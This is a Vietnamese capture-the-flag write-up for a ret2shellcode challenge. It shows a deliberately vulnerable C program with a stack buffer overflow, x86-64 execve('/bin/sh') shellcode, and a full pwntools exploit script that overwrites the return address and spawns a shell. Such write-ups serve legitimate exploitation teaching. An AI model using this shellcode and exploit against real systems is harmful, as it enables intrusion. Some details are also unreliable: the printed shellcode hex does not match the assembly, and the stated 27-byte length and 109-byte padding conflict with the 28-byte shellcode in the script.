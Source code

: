 # ret2shellcode_chall_demo_file

## ret2shellcode.c
```c
#include <stdio.h>
#include <unistd.h>
int main() {
    char buffer[128];
    printf("Buffer address: %p\n", buffer);
    read(0, buffer, 256);
    return 0;
}
```
## Kiểm tra chế độ bảo vệ
```bash
checksec chall2
```

**Kết quả:**
```
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX unknown - GNU_STACK missing
PIE:        No PIE (0x400000)
```
* **Chúng ta có một file với lỗ hổng buffer overflow và không có bảo vệ (no stack protector, no pie, excutable stack). Như vậy ta có thể chạy shellcode trên stack bằng cách ghi đè địa chỉ trả về bằng địa chỉ buffer chứa shellcode**

## Viết shell code bằng asm (shellcode.asm)
```asm
section .text
global _start
_start:
    ; execve("/bin/sh", NULL, NULL)
    xor rax, rax
    push rax                ; NULL terminator
    ; Đẩy chuỗi "/bin//sh" lên stack (8 byte, 2 dấu / để đủ 8 byte)
    mov rbx, 0x68732f2f6e69622f ; "/bin//sh" (theo thứ tự little-endian)
    push rbx
    mov rdi, rsp            ; RDI trỏ tới chuỗi "/bin//sh"
    xor rsi, rsi            ; RSI = NULL (argv)
    xor rdx, rdx            ; RDX = NULL (envp)
    mov al, 59              ; syscall number 59 (execve) - dùng al để tránh null byte
    syscall
```
### Biên dịch shellcode.asm thành object file
```bash
nasm -f elf64 shellcode.asm -o shellcode.o
```
### Trích xuất shellcode
```bash
ld shellcode.o -o shellcode
```
### Lấy shellcode dạng hex
```bash
objdump -d shellcode.o | grep -A15 "<_start>:" | grep -Po '\s\K[a-f0-9]{2}(?=\s)' | tr '\n' ' ' | sed 's/ /\\x/g'
```
* **Kết quả:**
```
\x3b\x00\x00\x00\x48\xbf\x2f\x62\x69\x6e\x2f\x73\x68\x00\x57\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x0f\x05
```
## Viết script khai thác
Chúng ta cần:

* Lấy địa chỉ buffer từ chương trình.
* Tạo payload: [shellcode] + [padding] + [địa chỉ buffer]
Padding: 128 (kích thước buffer) + 8 (saved RBP) - độ dài shellcode
```python
#!/usr/bin/env python3

from pwn import *

# ENV
PORT = 0000
HOST = "host"
exe = context.binary = ELF('./chall2', checksec=False)
# libc = ELF('./libc.so.6', checksec=False)
# ld = ELF('', checksec=False)

def GDB():
    if not args.r:
        gdb.attach(p, gdbscript='''
            c
            set follow-fork-mode parent
            ''')

if len(sys.argv) > 1 and sys.argv[1] == 'r':
    p = remote(HOST, PORT)
else:
    p = exe.process()

p.recvuntil(b"Buffer address: ")
buffer_addr = int(p.recvline().strip(), 16)
log.info(f"Buffer address: {hex(buffer_addr)}")

shellcode = b"\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb0\x3b\x0f\x05"
# Tính padding: 128 (buffer) + 8 (saved rbp) = 136
padding = b'A' * (128 + 8 - len(shellcode))
# PAYLOAD
payload = shellcode + padding + p64(buffer_addr)

p.sendline(payload)

p.interactive()
```
### Payload:
- Đầu tiên là shellcode (27 byte).
- Sau đó là padding (109 byte ký tự 'A') để tổng cộng 136 byte.
- Cuối cùng là địa chỉ buffer (8 byte) để ghi đè return address. Sau khi return, nó sẽ nhảy đến shellcode trên stack.

## Chạy file exploit
```bash
./solve.py
```
**Kết quả sau khi lấy được shell:**
```bash
cat Flag.txt
```
```
WELL DONE! THIS IS YOUR FLAG: CTF{ISP_VO_DICH}
```
